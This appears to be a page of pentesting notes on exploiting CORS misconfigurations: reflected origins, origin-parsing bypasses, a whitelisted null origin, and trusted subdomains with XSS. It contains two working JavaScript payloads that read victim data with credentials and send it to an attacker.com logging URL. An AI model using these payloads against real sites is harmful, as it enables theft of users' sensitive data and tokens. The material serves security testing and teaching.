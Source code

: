 ```yaml
---
title: "CORS"
weight: 7
---
```


# CORS

**Impact**: if a response contains any sensitive information such as an API key or CSRF token, you could retrieve these info.

## Server ACAO Header from Client-Origin

Some app read the Origin header from requests and including a response header stating that the requesting origin is allowed.

**Detection**&#x20;

Send request with `Origin: https://example.com` and see if the origin is reflected in the `Access-Control-Allow-Origin` header.

**Exploit**

```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='https://attacker.com/log?key='+this.responseText;
};
</script>
```

## Errors parsing Origin headers

Suppose `normal-website.com`. Bypass with`hackersnormal-website.com` or `normal-website.com.evil-user.net`

{{< hint style=notes >}}
**Note**: you need to know the whitelisted origins.
{{< /hint >}}

## Whitelisted null origin value

**Detection**

Send request with `Origin: null` and see if the response has `Access-Control-Allow-Origin: null`

**Exploit**

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://attacker.com/log?key='+this.responseText;
};
</script>"></iframe>
```

## Exploiting XSS via CORS trust relationships

Suppose that:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

If you find an XSS on `subdomain.vulnerable-website.com` inject JavaScript that uses CORS and retrieve information.

```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

## Cookie SameSite

It is important to note that all this works in according with SameSite cookie attribute. This means that if your session cookie is set with `SameSite=Strict` the browser send the cookie only for same-site requests. For more information about this topic and how to bypass it, refer to [#samesite-cookies](csrf-cross-site-request-forgery.md#samesite-cookies "mention").

